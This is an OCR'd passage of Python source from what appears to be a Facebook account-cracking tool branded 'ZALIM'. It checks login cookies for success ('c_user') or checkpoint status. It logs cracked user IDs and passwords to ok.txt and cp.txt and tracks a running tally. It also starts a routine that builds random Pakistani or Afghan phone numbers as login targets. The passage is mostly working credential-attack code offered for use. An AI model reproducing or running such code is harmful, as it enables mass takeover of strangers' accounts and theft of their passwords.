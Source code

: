 			log_cookies=session.cookies.get_dict().keys()

			#print(iid+'|'+pws+'|'+str(log_cookies))

			if 'c_user' in log_cookies:

				coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])

				uid = coki[151:166]

				print('\r\033[1;32m[ZALIM-OK] '+uid+' | '+ps)

				cek_apk(coki)

				open('ok.txt', 'a').write(uid+' | '+ps+'\n')

				oks.append(uid)

				break

			elif 'checkpoint' in log_cookies:

				coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])

				uid = coki[141:152]

				print('\r\033[1;31m[ZALIM-CP] '+uid+' | '+ps)

				open('cp.txt', 'a').write(uid+' | '+ps+'\n')

				cps.append(uid)

				break

			else:

				continue

		loop+=1

		sys.stdout.write(f"\r\x1b[1;32m[ Z A L I M ]\x1b[1;32m [{loop}|{tl}] \x1b[1;32m[Ok][{len(oks)}] [Cp][{len(cps)}] ")

		sys.stdout.flush()

	except:

		pass



def random_pak_number():

	user=[]

	os.system('clear')

	print(logo)

	print(47*"-")

	print('[+] For PAK Code(92301) For AFG Code(93780) ETC...')

	print(47*'-')

	kode = input('[?] Input Code : ')
